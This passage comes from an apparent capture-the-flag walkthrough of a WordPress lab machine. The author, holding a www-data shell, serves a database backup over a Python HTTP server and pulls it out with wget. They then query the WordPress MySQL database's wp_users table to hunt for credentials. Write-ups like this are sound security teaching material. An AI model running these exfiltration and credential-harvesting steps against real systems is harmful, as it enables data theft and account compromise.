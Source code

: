 
Checking `/opt` we have a wordpress SQL database backup file


```
www-data@smol:/opt$ ls
wp_backup.sql
www-data@smol:/opt$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.11.105.30 - - [31/Mar/2025 09:42:56] "GET /wp_backup.sql HTTP/1.1" 200 -
```

Downloaded it to the analyst system and opened it using the `sqlitebrowser` utility to open the file which didn't yield any profit

```
❯ wget 10.10.46.88:1337/wp_backup.sql
--2025-03-31 10:42:56--  http://10.10.46.88:1337/wp_backup.sql
Connecting to 10.10.46.88:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 291970 (285K) [application/x-sql]
Saving to: ‘wp_backup.sql’
```


Then i decided to inspect the MySQL database to see if there are any credentials for other wordpress users


```mysql
~$ mysql -u wpuser -p

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpress          |
+--------------------+
5 rows in set (0.00 sec)

mysql> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------------+
| Tables_in_wordpress       |
+---------------------------+
| --SNIP--                  |
| wp_users                  |
| --SNIP--                  |
+---------------------------+
42 rows in set (0.01 sec)

mysql> select * from wp_users;

```

